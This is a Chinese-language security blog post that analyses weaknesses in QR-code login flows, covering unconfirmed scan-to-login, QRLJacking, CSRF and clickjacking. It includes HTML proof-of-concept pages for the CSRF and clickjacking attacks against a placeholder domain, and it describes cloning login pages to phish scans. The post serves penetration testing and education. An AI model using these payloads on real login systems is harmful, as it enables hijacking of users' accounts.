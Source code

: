 ```yaml
---
layout: post
author: Vulkey_Chen
title: "二维码登陆的常见缺陷剖析"
date: 2018-04-08
categories: 二维码登陆
permalink: /archives/2018-04-08/1
description: "二维码登陆，在表面上来看好像是很安全，但是深入去研究会发现很多都是存在安全隐患～"
---
```


#  二维码登陆的常见缺陷剖析

现在很多的电商平台和互联网型企业都有自己的手机APP，为了方便用户的体验，于是就有了"扫码登陆"这样的功能。看似扫码登陆，实际上还是基于HTTP请求来完成的。

## 了解扫码登陆步骤

标准的二维码登陆流程如下：
1. 打开web界面进入登陆然后加载二维码
2. 网站开始轮询，来检测二维码状态
3. 打开手机APP进入"扫一扫"，扫描二维码
4. 网站检测到二维码被扫描，进入被扫描后的界面，继续轮询来获取凭证
5. 手机APP进入确认登陆界面
6. (当点击确认登陆)网站轮询结束获取到了凭证，进入个人中心；(当取消登陆)网站轮询设定时间自动刷新页面。

## 常见缺陷剖析

### 0x00 非标准扫码登陆流程缺陷

#### 非标准流程描述

扫描登陆的流程如果不按照标准来做也会存在很多问题，国内一些企业在处理这些的时候省略了如上所述的第五步骤和第六步骤，而是直接扫描后立即登陆。

#### 分析非标准流程可能存在的问题

- 可进行1:1比例诱导扫描

二维码是一张图片而图片是可以移植的，所以我们可以1:1克隆一个登陆页面来诱导用户进行扫描，这样就可以直接获取用户的权限了。

因为保密协议的问题，这里不对漏洞详情进行描述，简单的使用文字进行叙述：

在测试这种问题的时候，只需要按照步骤去测试下即可发现是否有相对于的问题，我一般会使用浏览器ctrl+s快捷键先克隆下来，因为这样会自带css和js等文件，剩下的只需要你处理一下就行了，也可以参考我之前的文章：[微信Netting-QRLJacking分析利用-扫我二维码获取你的账号权限](https://bbs.ichunqiu.com/thread-25923-1-1.html)，方法类似就行，但是这里的微信二维码登录是基于OAuth2.0协议的，所以当用户点击之后，我只要获取到授权凭证链接就行了，而一般的二维码登陆是不基于OAuth2.0协议的，就需要处理好你的交互问题。

### 0x01 QRLJacking-二维码登陆劫持

2017年OWASP推出了这种攻击方式：https://www.owasp.org/index.php/Qrljacking

因为OWASP上有详细的介绍，所以在这里我就不以实际案例来说明了。

补充的一点是在0x00中我已经说明了之前一篇文章[微信Netting-QRLJacking分析利用-扫我二维码获取你的账号权限](https://bbs.ichunqiu.com/thread-25923-1-1.html)，在这里我称之为Netting-QRLJacking是因为我们可以使用钓鱼网站方式的方法进行大面积撒网~而其实这里是利用了OAuth2.0的一个流程特征，我们想进行二维码登录劫持的时候也可以利用"扫码登陆"的流程特征。

之前已经把"扫码登陆"的流程说的很清楚了，我们知道其中一步轮询是用户点击确认登陆之后就通过轮询这个接口可以直接获得凭证，利用这个特点就行了。

**小提示：**整个流程划分为一个一个的接口来测试，你会更清楚的。

### 0x02 CSRF跨站请求访问

之在0x01说了，把整个流程划分为一个个的接口来测试，你就会更清楚，其实潜台词就是**"你会发现更多漏洞"**~

以一个实际例子来讲解：

在测试一个站点的时候遇到的问题，其扫码登陆的流程全部为GET类型请求：

1. 打开web界面进入登陆然后加载二维码**（http://www.gh0stdemo.cn/getqrcode 返回一段uuid 二维码的链接为 http://www.gh0stdemo.cn/qrcode?code=qrcode）**
2. 网站开始轮询，来检测二维码状态**（http://www.gh0stdemo.cn/getqrlstate?code=qrcode）**
3. 打开手机APP进入"扫一扫"，扫描二维码**（http://www.gh0stdemo.cn/qrcode?code=qrcode）**
4. 网站检测到二维码被扫描，进入被扫描后的界面，继续轮询来获取凭证**（http://www.gh0stdemo.cn/getqrlstate?code=qrcode）**
5. 手机APP进入确认登陆界面**（这步骤必须需要经过第四步骤之后才可以 http://www.gh0stdemo.cn/putqrlstate?code=qrcode）**
6. (当点击确认登陆)网站轮询结束获取到了凭证，进入个人中心；(当取消登陆)网站轮询设定时间自动刷新页面。


在这里我们可以构建这样的PoC：

```html
<!DOCTYPE html>
<html>
<head>
	<title>PoC</title>
</head>
<body>
<script>
function loadsrc(){
	document.getElementById("test1").src="http://www.gh0stdemo.cn/qrcode?code=qrcode";
}
setTimeout('loadsrc()',1000);
</script>
<iframe id="test1" src="http://www.gh0stdemo.cn/putqrlstate?code=qrcode">
</iframe>
</body>
</html>
```

很简单的一个PoC就构成了，这里也确实存在CSRF的问题，可能在这里有人会想到攻击面得问题，仅仅只限于APP端？当然不，其实原理是一样得，都是把自己的凭证(Cookie)发出去，所以在电脑的web端只要登陆了一样可以完成攻击步骤~

当然在这里也有POST形式的CSRF，因为内容重复度过高就不一一举例了。

### 0x03 ClickJacking-点击劫持

点击劫持，视觉欺骗

根据扫码登陆的流程中我们可以看到有一个流程强制的要求了用户去点击确认登陆的按钮，但是这个界面往往没有做点击劫持的防范：

在我之前的一篇文章中详细讲了PoC的制作方法：http://gh0st.cn/archives/2017-12-20/1

之前跟一朋友在测试的时候发现了一些问题，有些网站用iframe标签引用进来，不会百分百的自适应，在这里我使用了div为父元素，如何再在div里面写入iframe这个子元素来自适应就行了。

```html
<html>
<head>
<meta name="referrer" content="never">
<style type="text/css"> 
.testframe {
	height: 100%;
} 
iframe {
	height: 100%;
	width: 100%;
	border: 0;
	margin: 0;
	padding: 0;
    /*控制不透明度的属性，兼容各大浏览器*/
    filter: alpha(Opacity=0); /*提供给IE浏览器8之前的*/
    -moz-opacity: 0; /*提供给火狐浏览器的*/
    -webkit-opacity: 0; /*提供给webkit内核的*/
    -khtml-opacity: 0; /*提供给KHTML内核的*/
    -ms-filter: "progid:DXImageTransform.Microsoft.Alpha(Opacity=0)"; /*提供给IE8之后的*/
    opacity: 0;
    /*控制不透明度的属性，兼容各大浏览器*/
}
.btn {
    position: fixed;
    width: 97%;
    height: 42px;
    margin: 0 auto;
    left: 0;
    right:0;
    display:block;
    top: 815px;
} 
</style>
</head>
<body>
<div class="testframe">
	<input type="button" class="btn" value="Click">
	<iframe src="http://www.gh0stdemo.cn/qrcode?code=qrcode"></iframe>
</div>
</body>
</html>
```

示例结果：

![https://vulkey.oss-cn-hangzhou.aliyuncs.com/2018-04-08/0x00.png](https://vulkey.oss-cn-hangzhou.aliyuncs.com/2018-04-08/0x00.png)



## 结尾

本文没详细的去写，仅仅记录笔者的实践过程和心得。